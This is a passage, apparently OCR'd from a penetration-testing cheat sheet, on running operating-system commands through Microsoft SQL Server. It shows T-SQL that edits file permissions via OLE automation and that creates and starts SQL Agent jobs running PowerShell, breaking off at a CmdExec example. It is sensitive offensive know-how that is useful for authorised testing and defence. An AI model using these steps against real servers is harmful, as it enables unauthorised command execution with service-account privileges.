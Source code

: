     -- Set the SecurityDescriptor's ControlFlags property to
    -- '4' (SE_DACL_PRESENT)
    EXEC sp_OASetProperty @objFull,'ControlFlags',4;
    -- Set the file security setting object's security descriptor to the
    new

    -- SecurityDescriptor object
    EXEC sp_OAMethod @objPermiss,'SetSecurityDescriptor',NULL,@objFull;
    ```

### Agent Jobs (CmdExec, PowerShell, ActiveX etc.)

- Job can be scheduled, executed in response to alerts or by using `sp_start_job` stored procedure
- Needs `sysadmin` role to `create` a job.
- Non-sysadmin users with the `SQLAgentUserRole`, `SQLAgentReaderRole`, and `SQLAgentOperatorRole` fixed database roles in the `msdb` database can also be used.
- The execution takes place with privileges of the SQL Server Agent service account if a proxy account is not configured.
- References:
  - <https://docs.microsoft.com/en-us/sql/ssms/agent/sql-server-agent>
  - <https://serverfault.com/a/14569>
  - <https://www.optiv.com/blog/mssql-agent-jobs-for-command-execution>
- Steps
  - `xp_startservice` - Start the SQL Server Agent service
  - `sp_add_job` - Create Job
  - `sp_add_jobstep` - Add job step
  - `sp_start_job` - Run Job
  - `sp_delete_job` - Delete Job
- Listing all Jobs**
    ```sql
    SELECT
    job.job_id, notify_level_email, name, enabled,
    description, step_name, command, server, database_name
    FROM
    msdb.dbo.sysjobs job
    INNER JOIN
    msdb.dbo.sysjobsteps steps
    ON
    job.job_id = steps.job_id
    ```
- Interesting subsystems (job types):
  - PowerShell
    ```sql
    USE msdb
    EXEC dbo.sp_add_job @job_name = N'PSJob'

    EXEC sp_add_jobstep @job_name = N'PSJob', @step_name =
    N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'powershell.exe -noexit ps', @retry_attempts = 1, @retry_interval = 5

    EXEC dbo.sp_add_jobserver @job_name = N'PSJob'

    EXEC dbo.sp_start_job N'PSJob'
    -- EXEC dbo.sp_delete_job @job_name = N'PSJob'
    ```
  - CmdExec
    ```sql
    USE msdb
    EXEC dbo.sp_add_job @job_name = N'cmdjob'
